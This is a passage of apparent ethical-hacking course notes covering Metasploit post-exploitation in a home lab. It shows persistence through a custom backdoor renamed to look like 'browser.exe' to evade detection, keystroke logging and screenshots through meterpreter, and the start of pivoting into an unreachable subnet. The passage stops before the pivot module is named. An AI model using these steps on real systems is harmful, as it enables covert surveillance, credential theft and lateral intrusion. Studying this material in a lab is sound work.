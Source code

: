 * EXE_NAME option is the name that will show under the name processes. Change it to make it less detectable

          set EXE_NAME browser.exe
* Set the session id to the session we backgrounded

          set SESSION 1
* Now to specify the payload that will use as the service. To do that we have to go to advanced options

          show advanced
          
* Use EXE::Custom option to the path of our backdoor

          set EXE::Custom /var/www/html/backdoor.exe
* Now exploit it

          exploit
* If we want to clean up the resource file once the use is over, go to the path given as "Clean up meterpreter RC file"


## Capturing Key Strikes
Log all mouse/keyboard events. 
We are going to do this using a module of meterpreter

* To start

         keyscan_start
* Now every keystrokes will be logged. To see the log

         keyscan_dump
* To stop

         keyscan_stop
* We can also get a screenshot by

         screenshot


## ==PIVOTING==
* Use the hacked device as a pivot
* Try to gain access to other devices in the network

We gained acces to a device. That device is also in an other network which is unreachable for us. Our target is to hack into a device in that network using the current victim as the pivot.

To replicate this scenario, we have to add another network adaptor to the windows machine and add a ==Bridged== connection. The metasploitable machine will also be in this network (bridged).
So, the kali and windows will be in NAT network. Also, the windows will be in ==Bridged== network along with the metasploitable.

How to set up a route b/n the hacked computer and our computer so that we can use any metasploit modules against the unaccessible network
* Since metasploitable device is invisible, we cant ==exploit== it
* We use ifconfig on the windows to get all the network interfaces. Then we identify the interface (subnet) to which metasploitable is connected.
* We have to now ==set up a route b/n this subnet and our current subnet==.
* For that, open this module after backgrounding the previous session
